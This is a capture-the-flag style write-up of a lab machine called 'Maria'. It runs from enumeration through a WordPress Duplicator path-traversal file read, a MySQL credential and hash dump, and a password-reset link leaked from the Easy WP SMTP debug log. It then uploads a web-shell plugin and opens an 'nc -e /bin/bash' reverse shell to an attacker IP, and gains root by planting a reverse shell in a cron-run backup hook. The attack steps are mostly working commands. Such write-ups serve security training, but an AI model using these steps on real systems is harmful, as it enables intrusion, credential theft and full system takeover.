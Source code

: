 # Maria

### Enumeration

```
21/tcp    open   ftp       vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    5 0        0            4096 Sep 21  2018 automysqlbackup
80/tcp    open   http      Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.7.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Maria
3306/tcp  open   mysql     MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
```

```
$ wpscan --url http://192.168.153.167/ --api-token [REDACTED]

[+] WordPress version 5.7.1 identified
[I] duplicator v1.3.26
[I] easy-wp-smtp v1.4.1
```

```
$ searchsploit wordpress easy wp smtp
Unpatched WordPress Easy WP SMTP installs version 1.4.2 or earlier. - Sensitive Data Exposure

$ searchsploit wordpress duplicator
Wordpress Plugin Duplicator 1.3.26 - Unauthentica | php/webapps/49288.rb
Exploit: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit)
```

```
EASY WP SMTP - https://www.exploit-db.com/exploits/50420
URL = arg + "/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../.." + file
```

[https://www.howtoforge.com/creating-mysql-backups-with-automysqlbackup-on-ubuntu-9.10](https://www.howtoforge.com/creating-mysql-backups-with-automysqlbackup-on-ubuntu-9.10)

```
> set FILEPATH /etc/default/automysqlbackup

# Username to access the MySQL server e.g. dbuser
USERNAME=backup

# Username to access the MySQL server e.g. password
PASSWORD=[REDACTED]

# Host name (or IP address) of MySQL server e.g localhost
DBHOST=localhost
```

```
$ mysql --host=192.168.153.167 -u backup -p

MariaDB [wordpress]> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$[REDACTED]                      |
+------------+------------------------------------+
1 row in set (0.145 sec)
```

I could not crack the password with rockyou.

[https://www.zdnet.com/article/zero-day-in-wordpress-smtp-plugin-abused-to-reset-admin-account-passwords/](https://www.zdnet.com/article/zero-day-in-wordpress-smtp-plugin-abused-to-reset-admin-account-passwords/)

With the other exploit, we can use mysql to identfiy the log file to get admin reset link.

Wordpress -> Forgot password -> admin

```
MariaDB [wordpress]> select option_value from wp_options where option_name = 'swpsmtp_options';
...
"enable_debug";i:1
"log_file_name";s:27:"618690b555268_debug_log.txt";}
```

```
> set FILEPATH /var/www/html/wordpress/wp-content/plugins/easy-wp-smtp/618690b555268_debug_log.txt

CLIENT -> SERVER: http://192.168.117.167/wp-login.php?action=rp&key=IRYLUQIp7Pl9LHhLkdbr&login=admin
```

Open the link, reset the admin password. Then login with new password.

### Initial Access

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ sudo zip plugin-shell.zip plugin-shell.php
```

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Install Now

```
http://192.168.117.167/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=nc%20-e%20/bin/bash%20192.168.49.117%2080
```

### PrivEsc

```
/etc/cron.d/automysqlbackup

www-data@maria:/var/mail$ cat /etc/cron.d/automysqlbackup
*/1 * * * * root /usr/sbin/automysqlbackup


cat /etc/default/automysqlbackup
# Command run after backups (uncomment to use)
POSTBACKUP=/var/www/html/wordpress/backup_scripts/backup-post
```

```
cat << EOF > /var/www/html/wordpress/backup_scripts/backup-post              
> /bin/bash -c '/usr/bin/nc -e /bin/bash 192.168.49.117 80'
> EOF

chmod +x /var/www/html/wordpress/backup_scripts/backup-post
```
